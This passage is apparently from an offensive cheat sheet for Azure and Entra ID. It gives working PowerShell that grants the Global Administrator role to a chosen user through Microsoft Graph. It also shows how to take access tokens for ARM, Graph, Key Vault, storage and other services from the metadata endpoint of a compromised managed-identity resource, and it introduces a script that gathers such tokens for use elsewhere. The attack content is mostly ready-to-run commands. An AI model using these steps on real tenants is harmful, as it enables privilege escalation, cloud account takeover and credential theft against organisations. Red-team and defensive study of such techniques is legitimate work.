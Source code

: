 **Description**: assigns the Global Administrator role to the targeted user.

**Note**: identifiers for other Entra ID roles can be found [here](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference).

```shell
$targetedUserObjectId = ''

$globalAdminTemplateId = '62e90394-69f5-4237-9190-012177145e10'
$payload = @{'@odata.type'='#microsoft.graph.unifiedRoleAssignment'; roleDefinitionId=$globalAdminTemplateId; principalId=$targetedUserObjectId; directoryScopeId='/'} | ConvertTo-Json

Invoke-AzRestMethod https://graph.microsoft.com/v1.0/roleManagement/directory/roleAssignments -Method POST -Payload $payload
```


<a id='mis'></a>
## Managed Identities - NOT FINISHED

*Notes*:
- If a system-managed identity is enabled on the resource, acquiring a token for any Microsoft resource is always possible, but this does *not* mean we have access to a scope in those resources

- Granted permissions are *not* self-contained in access tokens issued by IMDS (i.e. they are tracked server side)

- The only way to enumerate permissions from inside a compromised resource is to acquire a token for common resources and enumerate permissions


### Acquire an access token for a specific resource
```shell
$resource_arm = 'https://management.azure.com/'
$resource_dataLake = 'https://datalake.azure.net'
$resource_eventGrid = 'https://eventgrid.azure.net'
$resource_graph = 'https://graph.microsoft.com'
$resource_vault = 'https://vault.azure.net'
$resource_sql = 'https://database.windows.net/'
$resource_storage = 'https://storage.azure.com'

$resource = $resource_arm

$response = Invoke-WebRequest -Uri "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=${resource}" -Headers @{Metadata="true"}
$content = $response.Content | ConvertFrom-Json
$token = $content.access_token
echo $token
```

### Collect access tokens for common resources and generate enumerating script

*Note*: the generated script can be run anywhere
